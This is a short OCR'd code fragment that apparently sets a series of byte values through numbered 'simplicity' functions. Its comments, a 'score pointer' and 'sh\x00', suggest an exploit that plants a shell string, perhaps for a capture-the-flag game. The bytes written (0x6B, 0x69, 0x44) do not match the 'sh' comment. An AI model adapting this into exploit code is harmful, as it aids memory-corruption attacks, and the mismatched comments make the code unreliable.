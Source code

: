 ```
    simplicity189(0);
    simplicity190(0);
    simplicity191(0);
    simplicity192(0);
    simplicity193(0);
    simplicity194(0);
    simplicity195(0);
    simplicity196(0);
    simplicity197(0);
    simplicity198(0);
    simplicity199(0);
    simplicity200(0);
    simplicity201(0);
    simplicity202(0);
    simplicity203(0);
    simplicity204(0);
    simplicity205(0);
    simplicity206(0);
    simplicity207(0);
    simplicity208(0);
    simplicity209(0);
    simplicity210(0);
    simplicity211(0);
    simplicity212(0);
    simplicity213(0);
    simplicity214(0);
    simplicity215(0);
    simplicity216(0);
    simplicity217(0);
    simplicity218(0);
    simplicity219(0);
    simplicity220(0);
    simplicity221(0);
    simplicity222(0);
    simplicity223(0);
    simplicity224(0);
    simplicity225(0);
    simplicity226(0);
    simplicity227(0);
    simplicity228(0);
    simplicity229(0);
    simplicity230(0);
    simplicity231(0);
    simplicity232(0);
    simplicity233(0x6B);
    simplicity234(0X69);
    simplicity235(0X44);
    simplicity236(0);
    simplicity237(0);
    simplicity238(0);
    simplicity239(0);
    simplicity240(0);
    simplicity241(0x90);
 
    simplicity241(0x90);    // score pointer
 
    // sh\x00
    simplicity233(0x6B);
    simplicity234(0x69);
    simplicity235(0x44);
    simplicity236(0x00);
}

```